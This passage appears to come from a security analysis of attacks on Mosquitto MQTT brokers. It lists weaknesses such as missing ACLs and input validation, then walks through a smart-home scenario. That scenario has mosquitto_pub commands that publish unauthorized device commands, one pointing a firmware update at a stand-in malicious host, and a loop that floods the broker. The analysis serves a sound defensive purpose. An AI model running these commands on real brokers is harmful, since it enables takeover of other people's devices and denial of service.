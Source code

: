 #### 4.2. Potential Vulnerabilities Exploited

This attack path exploits vulnerabilities in several areas:

*   **Lack of Access Control (ACLs):**  The most significant vulnerability is the absence or misconfiguration of Access Control Lists (ACLs) in Mosquitto. If anonymous publishing is allowed or ACLs are too permissive, unauthorized users can easily publish messages.
*   **Insufficient Input Validation and Sanitization:** Applications often fail to properly validate and sanitize data received from MQTT messages. This allows malicious payloads to be processed without scrutiny, leading to command injection, data corruption, or other vulnerabilities.
*   **Weak Application Logic:**  Poorly designed application logic that blindly trusts MQTT message content without proper checks and safeguards is highly susceptible to this attack. For example, directly executing commands received via MQTT without authorization or validation.
*   **Lack of Rate Limiting/Traffic Shaping:**  Without rate limiting on publish operations, attackers can easily flood the broker with messages, leading to DoS attacks.
*   **Default Configurations:** Using default Mosquitto configurations, especially those that allow anonymous access or have weak default credentials, increases the attack surface.
*   **Vulnerabilities in MQTT Client Libraries:** While less common, vulnerabilities in the MQTT client libraries used by the application could be exploited through crafted messages.

#### 4.3. Step-by-Step Attack Scenario (Example: Smart Home Application)

Let's consider a smart home application using Mosquitto to control smart devices.

1.  **Vulnerability:** The Mosquitto broker is configured to allow anonymous publishing for ease of setup. The smart home application subscribes to the topic `home/devices/+/command` to receive commands for devices.
2.  **Attacker Action:** An attacker, connected to the same network or through a compromised device, uses an MQTT client (e.g., `mosquitto_pub`) to publish a malicious message to the topic `home/devices/livingroom_lights/command`.
    ```bash
    mosquitto_pub -h <mosquitto_broker_ip> -t "home/devices/livingroom_lights/command" -m '{"action": "brightness", "value": 100}'
    ```
    However, the attacker could also send:
    ```bash
    mosquitto_pub -h <mosquitto_broker_ip> -t "home/devices/livingroom_lights/command" -m '{"action": "firmware_update", "url": "http://malicious.site/firmware.bin"}'
    ```
    or even a simpler disruptive command:
    ```bash
    mosquitto_pub -h <mosquitto_broker_ip> -t "home/devices/livingroom_lights/command" -m '{"action": "off"}'
    ```
    or a flood of messages:
    ```bash
    for i in {1..1000}; do mosquitto_pub -h <mosquitto_broker_ip> -t "home/devices/livingroom_lights/command" -m '{"action": "off"}'; done
    ```

3.  **Impact:**
    *   **Unauthorized Control:** The smart home application, without proper validation, processes the malicious message. If the application logic is vulnerable, it might attempt to download and install firmware from the attacker's URL, potentially bricking the device or installing malware. Even a simple "off" command can disrupt the user experience.
    *   **Data Integrity Compromise:** If the application also relies on MQTT for sensor data, an attacker could publish false sensor readings, leading to incorrect automation decisions (e.g., falsely reporting high temperature to trigger unnecessary cooling).
    *   **Application Malfunction/DoS:**  Flooding the topic with messages can overwhelm the application and the broker, causing performance issues or service disruption.
